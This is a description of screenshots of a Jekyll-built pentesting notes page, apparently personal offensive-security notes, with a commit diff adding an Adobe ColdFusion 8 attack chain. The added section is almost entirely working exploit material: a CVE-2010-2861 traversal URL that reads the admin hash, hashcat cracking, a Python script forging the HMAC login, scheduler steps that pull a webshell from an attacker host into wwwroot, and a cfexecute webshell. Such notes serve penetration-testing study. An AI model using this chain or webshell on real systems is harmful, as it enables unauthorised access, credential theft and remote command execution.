

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from web/web_exploitation.md, in a window 1280 px wide and 1400 px high, scrolled down 17061 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
web: add Adobe ColdFusion 8 chain (CVE-2010-2861 traversal -> SHA1 crack -> HMAC login -> scheduler webshell)

````diff
--- a/web/web_exploitation.md
+++ b/web/web_exploitation.md
@@ -795,6 +795,61 @@
 
 ---
 
+## Adobe ColdFusion 8
+
+Fingerprint: JRun/ColdFusion banner on **8500** (or proxied on 80), a `/CFIDE/` directory
+listing, admin panel at `/CFIDE/administrator/`. CF8 and earlier are the classic chain.
+
+```bash
+curl -s -I http://$IP:8500/ | grep -i server          # "JRun Web Server"
+curl -s http://$IP:8500/CFIDE/ | grep -i "directory"   # listing => CF present
+```
+
+**CVE-2010-2861 — unauth directory traversal (admin `locale` parameter)**
+Reads any file as the CF service account; grab the admin password hash.
+```bash
+# Traverse to password.properties — plain SHA1 of the admin password
+curl -s "http://$IP:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en"
+# Other CF roots: C:\ColdFusion8\lib\, C:\JRun4\servers\cfusion\... — adjust depth to taste
+```
+
+```bash
+# Crack the leaked SHA1 — hashcat mode 100
+hashcat -m 100 cf_sha1.txt /usr/share/wordlists/rockyou.txt
+```
+
+**Admin login HMAC gotcha (uppercase or auth silently fails)**
+The login form computes `HMAC-SHA1(salt, SHA1(password))` client-side in `sha1.js` with
+`hexcase=1` — both the SHA1 message and the HMAC result must be **UPPERCASE** when POSTed.
+```python
+# salt = the <input name="salt"> value on the login page (changes per request)
+import hmac, hashlib, sys
+pw, salt = sys.argv[1], sys.argv[2]
+msg = hashlib.sha1(pw.encode()).hexdigest().upper()
+print(hmac.new(salt.encode(), msg.encode(), hashlib.sha1).hexdigest().upper())
+# POST cfadminPassword=<this>, salt=<salt> to /CFIDE/administrator/enter.cfm
+```
+
+**Scheduler webshell → RCE (post-auth)**
+CF8's scheduled-task feature fetches a remote URL and writes the body to any path the CF
+service account can write. Point it at wwwroot to drop a CFM webshell.
+```text
+1. Host a CFM webshell on your http.server (e.g. a <cfexecute> one-liner).
+2. Admin → Debugging & Logging → Scheduled Tasks → Schedule New Task:
+   URL  = http://$LHOST:8000/shell.cfm
+   Save output to file = C:\ColdFusion8\wwwroot\CFIDE\shell.cfm
+3. Run the task, then browse /CFIDE/shell.cfm?cmd=whoami — runs as the CF service user.
+```
+```cfml
+<!-- minimal shell.cfm -->
+<cfexecute name="cmd.exe" arguments="/c #url.cmd#" timeout="10"></cfexecute>
+```
+> Metasploit equivalents: `auxiliary/scanner/http/coldfusion_locale_traversal` (CVE-2010-2861),
+> `exploit/windows/http/coldfusion_fckeditor` (file-upload variant). On Win2008 R2 the shell
+> lands with SeImpersonate — escalate via `ms16_075` (see privesc/windows_privesc.md).
+
+---
+
 ## Deserialization
 
 ### Identification markers
````
